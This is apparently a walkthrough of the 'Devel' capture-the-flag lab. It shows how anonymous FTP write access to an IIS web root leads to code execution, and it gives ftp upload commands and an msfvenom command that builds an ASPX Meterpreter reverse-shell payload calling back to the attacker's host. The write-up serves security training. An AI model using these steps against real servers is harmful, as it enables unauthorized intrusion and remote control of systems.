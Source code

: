 ![](/images/devel/4. website.png "website")

We have a web page with no text, and what looks like a .img file. Let's view page source:

![](/images/devel/5. view-source.png "view-source")

And right there we see the "welcome.png" file. So it looks like the webserver is running from the same directory where we have Anonymous FTP access. This means we can use FTP to put files into the webserver's directory and then trigger execution via a web browser.

First let's prepare a text file to test:

    echo “This is a test.  123.” > test.txt

    cat test.txt

![](/images/devel/6. echo.png "echo")

Now let's ftp back to the target (10.10.10.5) and try to put our test.txt file there.

    ftp 10.10.10.5
    
    anonymous
    
    anypassword
    
    put test.txt
    
    dir

![](/images/devel/7. ftp_put.png)

So far so good.  Now we browse to the file with Firefox to see if it executes:

![](/images/devel/8. website_test.png)

Looks good.  So let's review:

We have a Microsoft IIS 7.5 server running and we can place files on it's root directory and access them via the web browser.

What if we upload a file that executes a reverse shell when we access it via the browser? Microsoft IIS runs .aspx files, so we should be able to create and upload a malicious .aspx file.

<p>&nbsp;</p>
=======================================================

## Exploitation using Metasploit

=======================================================

To start, we will build a meterpreter payload using msfvenom. You will need to use your own IP address and a port of your choosing in LHOST and LPORT respectively:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > meter-shell.aspx

![](/images/devel/9. msfvenom.png)
